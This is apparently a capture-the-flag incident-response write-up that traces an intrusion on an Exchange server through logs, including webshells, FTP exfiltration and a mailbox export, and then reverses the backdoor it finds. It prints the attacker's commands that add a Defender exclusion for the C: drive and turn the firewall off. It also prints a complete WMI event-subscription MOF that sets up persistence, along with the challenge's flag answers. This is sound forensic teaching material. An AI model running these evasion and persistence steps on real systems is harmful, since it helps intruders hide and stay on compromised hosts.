






# Setup

The virtual machine was imported. Before booting it, the disk was mounted and everything under `c:\Windows\System32\winevt\Logs\` was saved, so no event logs would be lost. A snapshot was also created for reverting the machine to pristine state.

# Initial entry

In the `c:\inetpub\logs\LogFiles\W3SVC1\u_ex230404.log` webserver logs there are a few entries with suspicious User-Agent: e.g. `python-requests/2.28.1`. These requests are successful to files that should not be there normally.


Checking the previously saved event logs, sysmon is installed and logging. Sysmon log (Event ID 11) reveals that those files were created recently.



The webserver process (`c:\windows\system32\inetsrv\w3wp.exe`) created the file. There is a similar entry for `myshell.aspx` later.

Based on this, the time range `2023.04.04 11:37:30` around/after should be investigated in details.

# Flag 1
`hcsc{C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\logverify.aspx}`

# AV evasion

In the security logs, the processes can be also seen (Event ID 4688). Focusing on `w3wp.exe`, there are multiple processes of interest, sometimes through cmd.

The first of such processes is adding the entire C drive to the anti virus exception list.


# Flag 2
`hcsc{powershell -Command Add-MpPreference -ExclusionPath 'C:'}`

# Following the processes

Continuing with the process logs, an entire trail can be recovered. 

The built-in `certutil` utility was used to download `procdump`.


# Flag 3
`hcsc{https://live.sysinternals.com/procdump.exe}`

# FTP

The built-in `ftp` utility was unsuccessfully attempted. The credentials for the attackers are visible in the logs in the pass parameter.


# Flag 4
`hcsc{adatszivargas@hcsc.flag}`

# Firewall

The firewall had to be turned off for ftp to work. 


# Flag 5
`hcsc{cmd.exe /C netsh advfirewall set allprofiles state off}`

# Exfiltration

Going further in the process logs, more ftp connections can be seen.


# Flag 6
`hcsc{mslogtrace-1-2.dmp,mslogtrace-1-1.dmp,mslogtrace.dmp}`

# Exfiltration 2
Later in the MSExchange Management logs, the mailbox exports (Event ID 1) can be found.

It is visible that the mailbox is exported to a folder.


That folder is still shared via SMB.


# Flag 7
`hcsc{jibenjamin.pst}`

# Persistence

Autoruns found a persistence entry under `WMI Database Entries`.


Any of the keywords (`CommandLineEventConsumer`, `PersistenceHello` etc.) can be used to search for the file under `c:\Windows` to find the file.



It is also visible in the event logs.


In the [communication.mof](workdir/malware/communication.mof) file, the details for the entry can be found. 



```c#
#PRAGMA NAMESPACE ("\\\\.\\root\\subscription")
instance of CommandLineEventConsumer as $Cons
{
    Name = "PersistenceHello";
    RunInteractively=false;
    CommandLineTemplate="C:\\Windows\\System32\\persistence.exe";
	};
instance of __EventFilter as $Filt
{
    Name = "PersistenceHello";
    EventNamespace = "root\\subscription";
    Query ="SELECT * FROM __InstanceCreationEvent Within 3"
            "Where TargetInstance Isa \"Win32_Process\" "
            "And Targetinstance.Name = \"winlogon.exe\" ";
    QueryLanguage = "WQL";
};
instance of __FilterToConsumerBinding
{ 
     Filter = $Filt;
     Consumer = $Cons;
};

//aGNzY3tha2tvcl9tYXJhZG9rX21lZ19lZ3lfa2ljc2l0X2Nzb2tvbG9tfQ==
```

This file is enough for all of the flags. Decoding the comment is the opsec flag.

Defender also picks the executable file up after removing the C drive from the exception list.


# Flag 8/1
`hcsc{C:\Windows\System32\wbem\communication.mof}`

# Flag 8/2
`hcsc{akkor_maradok_meg_egy_kicsit_csokolom}`

# Flag 8/3
`hcsc{C:\Windows\System32\persistence.exe}`

# Flag 8/4
`hcsc{PersistenceHello,winlogon.exe}`

# Reversing the backdoor

The [malware](workdir/malware/persistence.exe.zip) can be analyzed dynamically.

Running it with Proocmon reveals that the malware is looking for [thumbs.db](workdir/malware/thumbs.db) in `C:\Users\Public\Music\thumbs.db`, which is not that common. This path is one of the flags.


An file named `thumbs.db` can be found in `c:\Windows\System32` directory, which is definitely not normal. Copying it to the `Music` folder makes the malware running.

It can be also seen here that the `CreateFile` call was originating from `0x401246`. Th origin can be seen from the stack. There is also a `ReadFile` later with good config file supplied.



Running the malware in a debugger (e.g. x64dbg, olly2) with the valid config file reveals various things. 

A few steps after the file related methods, the decrypted config can be found at `0x40F0A8`. The debugger shows this at multiple places along the steps. This decrypted config is one of the flags.




Amongst the Winapi calls, various `WinINet` calls are also performed for the C2 communication.


Based on the [documentation](https://learn.microsoft.com/en-us/windows/win32/wininet/enabling-internet-functionality#setting-the-user-agent), the User-Agentet can be set in `InternetOpenW`.

Using a breakpoint there reveals the User-Agent. This is not yet one of the flags, will see later why.


Stepping back into the User code, tracing back the steps the decryption routine is revealed.


It is a basic XOR with key `x` (0x78 a in register `DX`). The only catch is that it is actually wchar, so the XOR key is `x\x00`.

It can be also seen that the encrypted string is located at 0xD120 offset and the version is not set yet, `%d.%d` is used on the unencrypted one.



Halfway during decryption.


After decryption. The challenge is asking for the decrypted one, not the sent (with version), so this is it.


Running `xortool` with the parameters can also produce the string at the correct offset.

```bash
xortool-xor -s "x\x00" -f persistence.exe.bin > persistence.exe.bin.xor
```

# Flag 9/1
`hcsc{Mozilla/5.0 (Windows NT %d.%d) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36}`

# Flag 9/2
`hcsc{C:\Users\Public\Music\thumbs.db}`

# Flag 9/3
`hcsc{c2OfGamerKings}`

